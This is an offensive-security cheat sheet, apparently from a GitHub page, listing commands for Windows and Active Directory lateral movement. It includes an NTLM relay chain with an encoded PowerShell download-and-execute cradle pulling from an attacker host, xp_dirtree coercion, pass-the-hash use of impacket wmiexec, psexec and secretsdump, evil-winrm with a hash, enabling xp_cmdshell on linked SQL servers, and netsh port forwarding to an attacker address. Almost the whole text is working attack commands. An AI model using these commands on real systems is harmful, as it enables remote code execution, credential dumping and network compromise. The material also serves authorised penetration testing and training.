 ### NTLM Relay (SQL pivot example)

```bash
# Connect to SQL and prep payload
impacket-mssqlclient <USER>@<VICTIM_IP> -windows-auth
python3 -c "import base64; print(base64.b64encode('(New-Object System.Net.WebClient).DownloadString(\'http://<ATTACKER_IP>/run.txt\') | IEX'.encode('utf-16le')).decode())"

# Relay to target and execute
impacket-ntlmrelayx --no-http-server -smb2support -t <TARGET_IP> -c 'powershell -enc <BASE64_PAYLOAD>'

# Trigger via xp_dirtree
xp_dirtree \\<ATTACKER_IP)\\share\\
```

### Impacket toolbelt

```bash
# WMI Exec (hashes or tickets)
impacket-wmiexec -hashes :<HASH> <USER>@<VICTIM_IP>

# Secretsdump
impacket-secretsdump -hashes :<HASH> <USER>@<DC_IP>

# PsExec (various auth modes)
impacket-psexec -k -no-pass <TARGET_FQDN>
impacket-psexec -hashes :<HASH> <USER>@<VICTIM_IP>
```

### Evil‑WinRM

```bash
evil-winrm -i <VICTIM_IP> -u <DOMAIN\\USER> -H <HASH>
```

### MSSQL Linked Servers & xp\_cmdshell

```sql
EXECUTE as LOGIN = 'sa';
EXEC sp_serveroption 'SQL03', 'rpc out', 'true';
EXEC ('sp_configure "show advanced options", 1; RECONFIGURE; EXEC sp_configure "xp_cmdshell", 1; RECONFIGURE;') AT SQL03;
EXEC('xp_cmdshell "whoami"') AT SQL03;
```

### Port Forwarding (Windows)

```powershell
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80  connectaddress=<ATTACKER_IP>
netsh interface portproxy add v4tov4 listenport=9090 listenaddress=0.0.0.0 connectport=9090 connectaddress=<ATTACKER_IP>
netsh interface portproxy add v4tov4 listenport=8089 listenaddress=0.0.0.0 connectport=443 connectaddress=<ATTACKER_IP>
```

---